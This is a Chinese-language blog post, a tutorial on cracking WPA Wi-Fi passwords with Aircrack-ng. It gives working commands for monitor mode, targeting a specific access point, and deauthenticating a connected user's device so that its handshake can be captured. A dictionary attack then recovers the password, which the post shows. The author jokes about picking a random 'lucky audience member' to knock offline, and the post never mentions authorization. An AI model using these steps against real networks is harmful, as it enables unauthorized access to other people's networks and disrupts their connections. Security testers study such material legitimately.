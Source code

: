 ```yaml
---
layout:     post
title:      无线攻防之Aircrack-ng
subtitle:   Aircrack-ng暴力破解
date:       2019-05-29
author:     Threekb
header-img: img/post-bg-coffee.jpeg
catalog: true
tags:
    - aircrack-ng
    - 无线网渗透
    - 无线攻防
    - 暴力破解
---
```


# 无线攻防之Aircrack-ng

**Aircrack-ng是无线渗透测试过程中一款非常经典的工具，命令行的操作界面也非常方便快捷，简单的几句命令行轻松拿下目标无线网！**

​	

> 由于kali已经集成了Aircrack-ng，这里就不做安装了
>
> 使用windows或者其他linux发行版系统的同学可以到[这里](https://www.aircrack-ng.org/downloads.html)下载安装

### 第一步：

* 将无线网卡插入电脑，如果是虚拟机并接入虚拟机，并在kali终端查看可用的无线网卡

​       输入  `airmon-ng` 查看可用网卡

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190529202827.png)

### 第二步：

* 将无线网卡开启监听模式

  输入`airmon-ng start + 无线网卡名称` 开启网卡监听模式

  例如：`airmon-ng start wlan0`

  ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190529203121.png)

* 这里要注意的是，开启监听模式之后，会给监听模式中的无线网卡重命名一个`wlan0mon` 后续的操作会到

### 第三步

* 扫描附近的无线网络

​       输入`airodump-ng + 处于监听模式的重命名后的无线网卡的名称` 扫描附近网络

​	   例如:`airodump-ng wlan0mon`

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190529203509.png)

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190529203531.png)

* 已经扫描出来一些无线网，这里有几个关键的信息需要注意一下
  * BSSID（ap的硬件地址）
  * PWR（信号强度，绝对值越小信号越强）
  * ENC（加密方式）
  * ESSID（ap名称）
  * STATION(用户设备的硬件地址)
  * CH（网络信道）

* 这些关键的信息待会会用到

### 第四步

* 确定好攻击的目标之后，准备抓取握手包
* 使用
* `airodump-ng -w <扫描结果保存的文件名> -c <无线网络信道> --bssid <目标无线 AP 的硬件地址> <处于监听模式的网卡名称>`确定扫描目标
* 例如：airodump-ng -w /root/桌面/rising/rising -c 6 --bssid 22:47:DA:62:2A:F0 wlan0mon

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190529211009.png)

* `因为扫描过程中如果有用户尝试连接wifi的时候才能拿到握手包，所以可以使用第五步的命令对设备进行攻击，让他掉线重新连接，这样就能拿到握手包，拿到握手包之后ctrl+c结束就行`

### 第五步

* 使用aireplay-ng对目标设备发起攻击

* 使用`aireplay-ng -攻击模式 共计次数 -a 无线ap硬件地址 -c 用户设备硬件地址 处于监听模式网卡名称`对目标进行攻击使其掉线

* 例如：aireplay-ng -0 0 -a 22:47:DA:62:2A:F0 -c AC:BC:32:96:31:8D wlan0mon

  * ok，随机挑选一名幸运观众开始攻击

  ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190529211928.png)

  

  ​                         ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190529211449.png)

### 第六步

* 拿到握手包之后使用aircrack暴力破解wifi密码

* 6.aircrack-ng  -w 密码字典  握手包的cap文件

* 例如：`aircrack-ng -w /root/桌面/krl.txt rising-01.cap`

  

  >  成功拿到握手包

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190529213709.png)

* 使用命令开始进行爆破

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190529212809.png)

* 成功破解 密码[rising616]

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190529213153.png)



> ##### 当然，如果嫌自带工具效率不高，可以将握手包拷出来，使用大名鼎鼎的ewsa进行爆破，这个方式我会在另外一篇去介绍！